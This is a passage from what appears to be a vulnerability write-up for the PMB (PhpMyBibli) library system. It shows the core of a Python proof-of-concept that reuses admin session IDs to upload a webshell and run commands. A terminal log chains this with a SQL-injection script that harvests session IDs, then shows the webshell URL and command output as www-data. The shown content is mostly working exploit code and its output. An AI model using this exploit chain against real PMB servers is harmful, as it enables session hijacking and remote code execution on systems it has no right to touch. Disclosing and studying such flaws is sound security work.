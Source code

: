 ```python
    parser.add_argument('--command', type=str, help='Execute custom command',required=False)
    args = parser.parse_args()

    if not args.sessid:
        if not args.sessid_list:
            exit()

    sessid_list = []

    status = False

    url = "{0}/".format(args.pmb_url)
    command = args.command

    if args.sessid:
        sessid_list.append(args.sessid)
    elif args.sessid_list:
        sessid_list = args.sessid_list

    for sessid in sessid_list:
        cookies = {"PhpMyBibli-LOGIN": "admin", "PhpMyBibli-SESSID": sessid}

        filename = upload_webshell(url, cookies)
        if filename:
            status = True
            if command:
                print(execute_command(url, filename[0], command))
        if status:
            break
```

When executed, passing it the list of session identifiers obtained with the proof of concept shown in the "SQL Injection in export_skos.php" vulnerability, the file upload is confirmed and the "id" command is executed:

```bash
root@ubuntu:/var/www/html/pocs# python3 Union-SQLI-export_skos.py http://127.0.0.1/pmb/                                                                                                                    
['1293437551', '1886627101', '3239147683', '3324994107', '3788863056', '4604414197', '5080229282', '7066911231', '7152832893']                                                                             
root@ubuntu:/var/www/html/pocs# python3 File-Upload-start_import.py --sessid_list 1293437551 1886627101 3239147683 3324994107 --command "id" http://127.0.0.1/pmb/                                         
Webshell URL: http://127.0.0.1/pmb//temp/751252001704414377shell.php                                                                                                                                       
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

***
